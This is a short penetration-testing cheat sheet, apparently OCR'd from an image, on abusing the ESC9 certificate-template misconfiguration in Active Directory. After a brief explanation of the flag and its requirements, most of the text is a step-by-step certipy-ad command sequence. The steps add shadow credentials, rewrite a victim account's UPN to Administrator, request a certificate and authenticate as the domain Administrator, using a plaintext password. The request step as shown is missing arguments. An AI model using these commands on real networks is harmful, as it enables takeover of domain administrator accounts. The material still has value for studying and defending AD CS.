 # General Overview: 

The `CT_FLAG_NO_SECURITY_EXTENSION` (0x80000) value for the `msPKI-Enrollment-Flag`, known as ESC9, prevents the inclusion of the `szOID_NTDS_CA_SECURITY_EXT` security extension in certificates. This flag is particularly important when `StrongCertificateBindingEnforcement` is set to 1 (the default), as opposed to 2. Its significance increases in scenarios where weaker certificate mappings for Kerberos or Schannel could be exploited, such as in ESC10, since the absence of ESC9 would not affect the security requirements.

## Requirements: 
- StrongCertificateBindingEnforcement set to 1 (default) or 0
- Certificate contains the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value
- Certificate specifies Any Client authentication EKU
- GenericWrite over any account A to compromise any account B
# Abusing ESC9  Certificate Templates

## Scenario 1 

afsimmons@megacorpone.com has GenericWrite over xadmin@megacorpone.com, and we want to compromise Administrator@megacorpone.com. xadmin@megacorpone.com is allowed to enroll in the certificate template ESC9 that specifies the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value.
## Certipy

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -user xadmin@megacorpone.com
- certipy-ad auth -pfx administrator.pfx -domain megacorpone.com
